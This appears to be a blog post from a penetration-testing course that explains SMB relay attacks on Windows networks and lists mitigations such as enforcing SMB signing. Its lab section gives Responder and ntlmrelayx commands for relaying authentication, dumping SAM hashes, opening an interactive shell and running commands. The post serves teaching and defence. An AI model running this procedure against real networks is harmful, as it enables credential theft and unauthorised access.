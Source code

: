 ```yaml
---
title: "Understanding SMB Relay Attacks and Mitigation Techniques"
date: 2024-07-22
toc: true
toc_label: "Table of Contents"
toc_icon: "list-alt"
categories:
  - Blog
tags:
  - Cybersecurity
  - Offensive
  - Red Team
  - Penetration Testing
  - Ethical Hacking
  - Active Directory
  - SMB

 
tagline: "Secure Your Network: Uncovering SMB Relay Attacks and Effective Mitigation Strategies."
header:
  teaser: assets/images/tcm-academy/smb-relay-0.png
  overlay_filter: rgba(0, 0, 0, 0.5)
  overlay_image: /assets/images/tcm-academy/smb-relay-0.png
  caption: "Photo credit: [**AI**](https://chatgpt.com/)"
---
```


## Introduction

In the world of network security, understanding various attack vectors is critical to safeguarding systems and data. One such attack is the SMB (Server Message Block) Relay attack, which exploits vulnerabilities in the SMB protocol commonly used in Windows environments. This article will explore what an SMB Relay attack is, the steps involved in executing such an attack, and mitigation strategies to reduce the associated risks. Additionally, I will include screenshots and steps from my lab demonstration using the Responder tool and NTLM Relay X.

<img src="/assets/images/tcm-academy/SMB_relay_attack_featured_image.png">

## What is an SMB Relay Attack?

An SMB Relay attack is a type of Man-in-the-Middle (MitM) attack where an attacker intercepts and relays SMB authentication requests to a target server. This allows the attacker to authenticate themselves on behalf of the victim without knowing their credentials. The attack takes advantage of weak or misconfigured SMB services that allow for relay attacks, particularly when SMB signing is not enforced.



## Steps Involved in an SMB Relay Attack

1. **Identify Hosts without SMB Signing**:
   - The attacker scans the network to identify hosts that do not have SMB signing enforced, making them vulnerable to relay attacks.

2. **Attacker Configures Responder to Relay Requests**:
   - The attacker sets up the Responder tool to capture and relay SMB authentication requests on the network.

3. **Run Responder**:
   - The attacker runs Responder to listen for and capture SMB authentication requests from network hosts.

4. **Attacker Setup Relay X**:
   - The attacker configures NTLM Relay X to relay the captured authentication requests to the target server.

5. **A Triggering Event Occurs**:
   - An event, such as a user attempting to access a network resource, triggers the SMB authentication process.
   - The attacker intercepts and relays the authentication request using NTLM Relay X.

6. **Relay Side: Hashes of the SAM Get Dumped**:
   - The relayed authentication request results in the dumping of hashes from the Security Account Manager (SAM) database on the target server.
   - The attacker can crack these hashes to reveal passwords.

7. **Interactive Shell with -i Command**:
   - The attacker can create an interactive shell using the `-i` command with NTLM Relay X, allowing for direct interaction with the target system.

8. **Send Commands with -c Option**:
   - The attacker can send specific commands to the target system by adding the `-c` option to NTLM Relay X.

## Mitigation Strategies for SMB Relay Attacks

1. **Enforce SMB Signing**:
   - Enabling SMB signing on all systems ensures that SMB packets are digitally signed, preventing tampering and relay attacks.
   - This can be configured via Group Policy:
     - `Computer Configuration -> Policies -> Windows Settings -> Security Settings -> Local Policies -> Security Options`
     - Enable "Microsoft network client: Digitally sign communications (always)" and "Microsoft network server: Digitally sign communications (always)".
     <img src="/assets/images/tcm-academy/smb-relay-1.jpg">

2. **Disable SMBv1**:
   - SMBv1 is an older version of the SMB protocol that is more susceptible to attacks. Disabling it reduces the attack surface.
   - This can be done via <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server#disable-smbv1-by-using-group-policy">Group Policy</a> or through Windows <a href="https://learn.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server">features settings</a>.

3. **Use Strong Authentication Methods**:
   - Implement multi-factor authentication (MFA) to add an extra layer of security, making it harder for attackers to exploit relayed credentials.

4. **Segment the Network**:
   - Network segmentation limits the spread of an attack by isolating essential systems and services from the rest of the network.

5. **Regularly Update and Patch Systems**:
   - Keep all systems and software up-to-date with the latest security patches to protect against known vulnerabilities.

6. **Monitor and Detect**:
   - Use network monitoring tools to detect unusual activities and potential MitM attacks.
   - Implement alerting mechanisms to respond quickly to suspicious behavior.

## Lab Demonstration: SMB Relay Attack Using Responder and NTLM Relay X

Below are the steps and screenshots from my lab demonstration of an SMB Relay attack:

1. **Identify Hosts without SMB Signing Enabled and Enforced**: Scanned the network to find vulnerable hosts.

```
nmap --script=smb2-security-mode.nse -445 <target IP address> -Pn
```

   ![Identify Hosts](/assets/images/tcm-academy/smb-relay-2.png)

2. **Create a targets file**

```
sudo nano target.txt
```
   ![Identify Hosts](/assets/images/tcm-academy/smb-relay-3.png)


3. **Configure Responder to Relay Requests**: Set up Responder to capture and relay SMB authentication requests.

```
sudo mousepad /etc/responder/Responder.conf
```

   ![Configure Responder](/assets/images/tcm-academy/smb-relay-4.png)


Switch off SMB and HTTP

<img src="/assets/images/tcm-academy/smb-relay-5.png">


4. **Run Responder**: Executed Responder to listen for SMB authentication attempts.

```
sudo responder -I eth0
```

   ![Run Responder](/assets/images/tcm-academy/smb-relay-6.png)

5. **Setup NTLM Relay X**: Configured NTLM Relay X to relay captured credentials to the target server.

```
sudo python3 ntlmrelayx.py -smb2support -tf targets.txt 
```

   ![Setup Relay X](/assets/images/tcm-academy/smb-relay-7.png)

6. **Triggering Event**: Captured SMB authentication request when a user tried to access a network resource.
   ![Triggering Event](/assets/images/tcm-academy/smb-relay-8.png)

   <img src="/assets/images/tcm-academy/smb-relay-9.png">

7. **Dump SAM Hashes**: Relayed the authentication request and dumped the hashes from the SAM database.
   ![Dump SAM Hashes](/assets/images/tcm-academy/smb-relay-10.png)

8. **Interactive Shell**: Created an interactive shell using the `-i` command.

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

   ![Interactive Shell](/assets/images/tcm-academy/smb-relay-11.png)


 <img src="/assets/images/tcm-academy/smb-relay-12.png">     


9. **Send Commands**: Sent specific commands to the target system using the `-c` option.

```
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```



   ![Send Commands](/assets/images/tcm-academy/smb-relay-13.png)

## Conclusion

Understanding and mitigating SMB Relay attacks is critical for maintaining the security of networked systems. By enforcing SMB signing, disabling SMBv1, using strong authentication methods, segmenting the network, keeping systems updated, and monitoring network activities, organizations can significantly reduce the risk of such attacks. The lab demonstration provided practical insights into how these attacks are executed and the importance of implementing robust security measures.

Feel free to reach out with any questions or comments on this topic. Stay secure!

